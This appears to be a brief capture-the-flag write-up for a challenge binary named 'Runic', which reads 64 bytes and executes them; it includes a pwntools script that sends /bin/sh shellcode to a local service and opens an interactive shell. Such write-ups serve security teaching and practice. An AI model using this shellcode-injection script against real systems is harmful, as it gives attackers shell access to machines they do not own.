 # Runic

Below is the main function for Runic:

![Runic main](runic.png)

The following events happen:
* read() of 0x40 bytes (64 bytes)
* call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

```python
import sys
from pwn import * # pip install pwntools

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
```
